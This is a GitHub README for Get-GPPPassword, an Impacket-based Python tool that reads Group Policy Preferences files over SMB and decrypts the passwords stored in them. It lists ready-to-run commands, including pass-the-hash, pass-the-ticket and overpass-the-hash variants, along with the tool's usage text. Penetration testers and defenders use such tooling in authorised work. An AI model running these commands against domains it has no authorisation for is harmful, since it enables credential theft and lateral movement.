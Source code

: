 ⚠️ **THIS REPO IS DISCONTINUED SINCE IT HAS BEEN OFFICIALLY ADDED TO [IMPACKET](https://github.com/SecureAuthCorp/impacket). IT WILL ONLY BE MAINTAINED THERE** ⚠️

# Get-GPPPassword

Python script for extracting and decrypting Group Policy Preferences passwords, using Impacket's lib, and using streams for carving files instead of mounting shares

![example GIF](.assets/example.gif)

## Install

This script can be run in standalone (`python3 -m pip install -r requirements.txt`) or added in Impacket (`cd /path/to/impacket; cp Get-GPPPassword.py examples/; python3 -m pip install .`).

## Examples

NULL session

````shell
python3 Get-GPPPassword.py -no-pass domain_controller
````

Username, password

````shell
python3 Get-GPPPassword.py domain.local/someuser:somepassword@domain_controller
````

Pass-the-hash

````shell
python3 Get-GPPPassword.py -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

Pass-the-ticket

````shell
export KRB5CCNAME=someuser.ccache
python3 Get-GPPPassword.py -k domain_controller
````

Pass-the-key

````shell
python3 Get-GPPPassword.py -aesKey aesKey domain.local/someuser@domain_controller
````

Overpass-the-hash

````shell
python3 Get-GPPPassword.py -k -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

## Usage

```
usage: Get-GPPPassword.py [-h] [-share SHARE] [-base-dir BASE_DIR] [-ts]
                          [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                          [-aesKey hex key] [-dc-ip ip address]
                          [-target-ip ip address] [-port [destination port]]
                          target

Group Policy Preferences passwords finder and decryptor

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          SMB Share
  -base-dir BASE_DIR    Directory to search in (Default: /)
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
  -port [destination port]
                        Destination port to connect to SMB Server
```

# Credits

Thanks to :
- [mxrch](https://twitter.com/mxrchreborn) for the code allowing to read files in stream instead of downloading them.
- [Impacket](https://github.com/SecureAuthCorp/impacket) for handling the connections, auth, socket parts.
- [Microsoft](https://www.youtube.com/watch?v=dQw4w9WgXcQ) for [releasing the AES encryption key](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) for the cpasswords.
- the best, [@podalirius_](https://twitter.com/@podalirius_) for coding almost everything that my 5-year-old brain couldn't.
